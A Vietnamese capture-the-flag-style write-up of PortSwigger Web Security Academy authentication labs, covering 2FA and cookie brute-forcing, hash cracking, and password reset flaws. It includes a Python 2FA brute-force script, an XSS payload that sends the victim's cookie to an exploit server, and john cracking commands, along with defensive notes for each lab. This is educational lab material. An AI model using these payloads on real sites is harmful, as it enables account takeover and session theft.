

- OKE! Setup xong rồi giờ thì start attack thôi.


- Thay session và hoàn thành bài lab.


**Notes**
Một cách khác là dùng Python để khai thác:
```
import requests
from concurrent.futures import ThreadPoolExecutor
from bs4 import BeautifulSoup

# Global flag to stop brute-force when code is found
found = False

def sendRequest(url, number, session):
    global found

    # Nếu đã tìm thấy mã đúng, dừng các request còn lại
    if found:
        return

    print(f'[*] Trying number: {number}', end='\r')

    # Lấy token CSRF của trang login
    login1Request = session.get(url + '/login')
    soup = BeautifulSoup(login1Request.text, 'html.parser')
    login1CsrfToken = soup.find('input', {'name': 'csrf'}).get('value')

    login1Data = {
        'csrf': login1CsrfToken,
        'username': 'carlos',
        'password': 'montoya'
    }

    # Đăng nhập với user carlos
    session.post(url + '/login', data=login1Data)

    # Lấy token CSRF của trang nhập mã 2FA
    login2Request = session.get(url + '/login2')
    soup = BeautifulSoup(login2Request.text, 'html.parser')
    login2CsrfToken = soup.find('input', {'name': 'csrf'}).get('value')

    login2Data = {
        'csrf': login2CsrfToken,
        'mfa-code': number
    }

    # Gửi mã 2FA
    result = session.post(url + '/login2', data=login2Data)

    # Nếu đăng nhập thành công, dừng brute-force
    if 'Incorrect security code' not in result.text:
        found = True
        print(f'\n[+] Found security code: {number}')
        return

def main():
    url = 'https://0aa3005a0329b950c25d170a00dd0025.web-security-academy.net'
    
    # Tạo danh sách mã 2FA từ 0000 đến 9999
    listNumbers = [f'{i:04d}' for i in range(10000)]

    # Khởi tạo session chung cho tất cả request
    session = requests.Session()

    # Sử dụng ThreadPoolExecutor để quản lý số luồng tối đa
    with ThreadPoolExecutor(max_workers=10) as executor:
        for number in listNumbers:
            if found:  # Nếu đã tìm thấy mã, dừng việc gửi request
                break
            executor.submit(sendRequest, url, number, session)

if __name__ == '__main__':
    main()
```

>💡MACRO
Macro giúp tự động hóa các request phức tạp trong Burp Suite.
Được sử dụng để xử lý token động, làm mới session, và chuỗi request liên tiếp.
Hữu ích khi cần tấn công web có nhiều bước xác thực hoặc token động.

___

## Vulnerabilities in other authentication mechanisms

### Lab: Brute-forcing a stay-logged-in cookie
**Yêu cầu**: Lab cho phép người dùng duy trì trạng thái đăng nhập ngay cả khi đóng trình duyệt. Cookie được sử dụng cho chức năng này có thể bị brute-force. Nhiệm vụ: brute-force cookie của `carlos` để truy cập trang **My account** của hắn và hoàn thành lab. Đăng nhập với thông tin `wiener:peter` để kiểm tra cơ chế xác thực.

**Thực hiện**
- Đăng nhập bằng tài khoản được cho để tìm hiểu về hành vi của server. Ở `POST /login` khi gửi đi kèm `stay-login:on` thì gói tin phản hồi có set một cái cookie đáng ngờ.


- Nghiên cứu về cookie này `stay-logged-in=d2llbmVyOjUxZGMzMGRkYzQ3M2Q0M2E2MDExZTllYmJhNmNhNzcw`. Theo suy đoán đây có thể là Base64 encode. Decode cookie này ta được `wiener:51dc30ddc473d43a6011e9ebba6ca770`
- Theo đề bài gợi ý thì rất có thể chuỗi vô nghĩa đằng sau là mã hash của một chuỗi cố định nào đó. Sử dụng `hashid` tool để xác định thử. Theo suy đoán đây rất có thể là mã MD5.


- Thử mã hóa password bằng MD5 ta được: `51dc30ddc473d43a6011e9ebba6ca770`. Vậy thì ta đoán được cơ chế tạo ra cookie `stay-logged`: `Base64(user||md5(password))`


- Sau khi biết được cơ chế giờ ta sẽ tạo cookie `stay-logged` đối với user `carlos`. Sử dụng Intruder để brute-force. Việc setup như trong ảnh


- Thực hiện brute-force và được kết quả.


**Notes**
Một số trang web sử dụng cookie để duy trì đăng nhập ngay cả khi người dùng đóng trình duyệt. Nếu cookie này được tạo từ các giá trị dễ đoán như username, timestamp hoặc password, kẻ tấn công có thể brute-force để chiếm quyền truy cập.  

Dù có mã hóa, nếu chỉ dùng phương pháp đơn giản như Base64 hoặc hashing không có salt, cookie vẫn có thể bị phá vỡ. Ngoài ra, nếu hệ thống không giới hạn số lần thử với cookie, brute-force có thể bỏ qua cơ chế bảo vệ đăng nhập thông thường, làm tăng nguy cơ bị tấn công.

___

### Lab: Offline password cracking
**Yêu cầu**: Lab lưu trữ **hash mật khẩu** của người dùng trong cookie. Ngoài ra, còn tồn tại lỗ hổng **XSS** trong chức năng bình luận. Nhiệm vụ: khai thác **XSS** để lấy cookie **stay-logged-in** của `carlos`, sau đó crack hash để tìm mật khẩu. Đăng nhập vào tài khoản của `carlos` và xóa tài khoản của hắn trong trang **My account** để hoàn thành lab. Đăng nhập với thông tin `wiener:peter` để kiểm tra cơ chế xác thực.

**Thực hiện**
- Theo mô tả bài lab ta sẽ phải tìm lỗ hổng `XSS`. Sau đó tiêm `XSS` và thực thi JavaScript để lấy được cookie của `carlos`. Giải mã tìm ra mật khẩu của `carlos`.
- Đăng nhập với tài khoản được cấp. Và tìm kiếm lỗ hổng `XSS`. Thông thường `XSS` sẽ tồn tại ở các form bình luận.



- Có thể xác nhận lỗ hổng XSS ở phần comment. Tiếp theo ta viết payload để tiêm và khi nạn nhận ấn vào ta sẽ có được cookie của nạn nhân.
```
<script>document.location='https://exploit-0aa6005003acba6f81ea6b33010400eb.exploit-server.net/'+document.cookie</script>
```


- Kiểm tra xem có nạn nhân nào dính chưa. Như này là đã thành công, ta lấy được `stay-logged-in=Y2FybG9zOjI2MzIzYzE2ZDVmNGRhYmZmM2JiMTM2ZjI0NjBhOTQz`. Decode Base64 ta được chuỗi `carlos:26323c16d5f4dabff3bb136f2460a943`.


- Bước tiếp theo là crack mã hash `26323c16d5f4dabff3bb136f2460a943`. Theo bài lab trước ta biết đây có thể mã MD5 vì thế ta sử dụng các công cụ trên mạng để dò ngược. Ở đây tôi dùng `john` của kali luôn.
> command
echo "26323c16d5f4dabff3bb136f2460a943" > hash.txt
john --wordlist=/usr/share/wordlists/rockyou.txt --format=raw-md5 hash.txt



- password: `onceuponatime`. Đăng nhập lại, xóa account để hoàn thành lab.

**Notes**
Kẻ tấn công có thể khai thác lỗ hổng mà không cần tạo tài khoản bằng cách dùng XSS để đánh cắp cookie "remember me" và phân tích cấu trúc của nó. Nếu trang web sử dụng framework mã nguồn mở, thông tin về cookie có thể bị lộ, giúp việc tấn công dễ dàng hơn.  

Ngoài ra, nếu mật khẩu được băm nhưng không có salt, kẻ tấn công có thể tra cứu hash trong danh sách mật khẩu phổ biến để khôi phục mật khẩu gốc. Điều này nhấn mạnh tầm quan trọng của việc sử dụng salt trong mã hóa.

___

### Lab: Password reset broken logic
**Yêu cầu**: Lab có lỗ hổng trong chức năng **đặt lại mật khẩu**. Nhiệm vụ: khai thác lỗ hổng để **đặt lại mật khẩu của `carlos`**, sau đó đăng nhập vào tài khoản của hắn và truy cập trang **My account** để hoàn thành lab. Đăng nhập với thông tin `wiener:peter` để kiểm tra cơ chế xác thực.

**Thực hiện**
- Thử các tính năng, đặc biệt là tính năng đặt lại mật khẩu. Quan sát các gói tin trên Burp.


- Ở trên param và data của gói tin POST đều có `temp-forgot-password-token=gdo38gkt6ydh42u9i4waug3j911055dm` điều này có lẽ là để phía Back End xác nhận đúng là đường link được gửi qua email. Tuy nhiên do xử lí sai cơ chế, tức là phía server chỉ kiểm tra token này có đúng là của nó sinh ra không và trong data của post có gửi đúng token đó không để xử lí. Điều này khiến ta có thể thay đổi username một cách tùy ý.
- Thay đổi thành `carlos` và đổi password thành `1`. Truy cập bằng tài khoản `carlos` và hoàn thành lab.


**Notes**
Việc cung cấp tính năng đặt lại mật khẩu là cần thiết nhưng cũng tiềm ẩn nhiều rủi ro bảo mật nếu không được triển khai đúng cách. Một số phương pháp phổ biến có mức độ an toàn khác nhau:  

- Gửi mật khẩu qua email là cách tiếp cận không an toàn, đặc biệt nếu mật khẩu không thay đổi ngay lập tức hoặc email bị truy cập trái phép.  
- Dùng URL đặt lại mật khẩu là một phương pháp tốt hơn, nhưng nếu URL chứa tham số đoán được (ví dụ: `?user=victim-user`), kẻ tấn công có thể lợi dụng để chiếm quyền truy cập vào tài khoản của người khác.  
- Cách an toàn nhất là sử dụng token ngẫu nhiên có độ phức tạp cao liên kết với tài khoản người dùng và có thời gian hết hạn ngắn. Token này phải được xác minh cả khi truy cập trang đặt lại lẫn khi gửi biểu mẫu thay đổi mật khẩu.  
- Một số hệ thống còn mắc lỗi bỏ qua xác minh token khi gửi biểu mẫu cho phép kẻ tấn công lợi dụng trang đặt lại mật khẩu từ tài khoản của họ để thay đổi mật khẩu của người khác.  
- Nếu URL đặt lại mật khẩu được tạo động mà không có biện pháp bảo vệ, nó có thể bị password reset poisoning cho phép kẻ tấn công đánh cắp token của người khác để chiếm tài khoản.  

Những sai sót này cho thấy tính năng đặt lại mật khẩu cần được thiết kế cẩn thận để tránh bị khai thác, đặc biệt là các vấn đề liên quan đến xác thực token và bảo mật email.

___

### Lab: Password reset poisoning via middleware
**Yêu cầu**: Lab có lỗ hổng **password reset poisoning**, trong đó người dùng `carlos` sẽ nhấp vào bất kỳ liên kết nào trong email mà hắn nhận được. Nhiệm vụ: khai thác lỗ hổng này để chiếm quyền truy cập tài khoản của `carlos`. Bạn có thể đăng nhập vào tài khoản của mình với thông tin `wiener:peter`, và mọi email gửi đến tài khoản này có thể được đọc qua email client trên exploit server.

**Thực hiện**
- Sau khi tìm hiểu về cơ chế hoạt động của web. Web sử dụng cơ chế `generated dynamically` để sinh ra `url password reset`. 
- Cụ thể ở bài lab này cơ chế `generated dynamically` sử dụng `Host` và ghép với một phần `api` để truy vấn tới trang reset password



- Thay đổi trường `Host` thì gây ra lỗi


- Tuy nhiên sử dụng header `X-Forwardded-Host` để bypass thì thành công.


- Thế thì ta có thể thao túng đường dẫn này tới con server của kẻ tấn công. Khi nạn nhân ấn vào link thì phía bên kẻ tấn công sẽ thấy được và biết được phần reset-token được thêm vào.
- Thay đổi gói tin và thực hiện tấn công



- `/forgot-password?temp-forgot-password-token=rtl6g1vwgc5bzgc95iyb7ny454nbg33e`. Giờ thì chỉ cần paste vào trang ban đầu và đổi password. Sau đó đăng nhập với `carlos` là xong.



**Notes**
 Bài lab khai thác lỗ hổng khi hệ thống sử dụng giá trị `X-Forwarded-Host` hoặc `Host` không được xác thực để tạo URL đặt lại mật khẩu. Kẻ tấn công có thể thay đổi giá trị này để gửi nạn nhân đến một domain do họ kiểm soát, từ đó đánh cắp token đặt lại mật khẩu.  

Ngoài ra, nếu hệ thống không vô hiệu hóa hoặc xác thực lại token khi đặt lại mật khẩu, kẻ tấn công có thể tái sử dụng nó để chiếm quyền tài khoản. Lỗ hổng này thường xảy ra trong các hệ thống có `proxy` hoặc `load balancer`, nơi middleware xử lý sai giá trị `Host`.

___

### Lab: Password brute-force via password change
**Yêu cầu**: Lab có lỗ hổng trong chức năng đổi mật khẩu, cho phép brute-force. Nhiệm vụ: sử dụng danh sách mật khẩu có sẵn để brute-force tài khoản của `carlos`, sau đó đăng nhập và truy cập trang My account của hắn để hoàn thành lab. Bạn có thể đăng nhập vào tài khoản của mình với thông tin `wiener:peter`.

**Thực hiện**
- Thử chức năng đổi password với tài khoản `wiener`. Thử các trường hợp để xem phản hồi với mỗi trường hợp. Khi ta thử để `new-password-1=1&new-password-2=2` 2 cái khác nhau thì server trả về `New password not match`.


- Thử thay tên `carlos` vào `wiener` thì ta lại được `current password is in correct`. Điều này có thể suy đoán được server đã bỏ quên việc xác thực ai đang sử dụng session này carlos or wiener. Server lần lượt kiểm tra xem `password` có đúng với `username` không rồi sau đó mới kiểm tra đến password được set mới.


- Thực hiện brute-force password với user `carlos`. Ta sẽ biết thành công khi kết quả trả về là `New password not match` ( Do password hiện tại đúng thì server mới kiểm tra đến password mới)


- Đăng nhập vào tài khoản `carlos` để hoàn thành bài lab.

**Notes**
Bài lab khai thác lỗ hổng trong chức năng đổi mật khẩu, nơi hệ thống không xác thực đúng cách người dùng trước khi cho phép thay đổi.  

- Khi đổi mật khẩu, hệ thống thường yêu cầu nhập mật khẩu cũ và mật khẩu mới. Nếu cơ chế xác thực giống như trang đăng nhập, nó có thể bị khai thác bằng các kỹ thuật brute-force tương tự.  
- Nếu ứng dụng cho phép thay đổi mật khẩu mà không xác thực người dùng đúng cách, kẻ tấn công có thể sửa giá trị `username` trong request để đặt lại mật khẩu của bất kỳ tài khoản nào.  
- Một số hệ thống sử dụng trường `username` ẩn trong request, điều này có thể bị chỉnh sửa để thực hiện brute-force và chiếm quyền điều khiển tài khoản người dùng khác.  
- Nếu không có giới hạn số lần thử hoặc biện pháp bảo vệ thích hợp, kẻ tấn công có thể tự động hóa quá trình brute-force để thử nhiều mật khẩu khác nhau và chiếm quyền tài khoản mục tiêu.

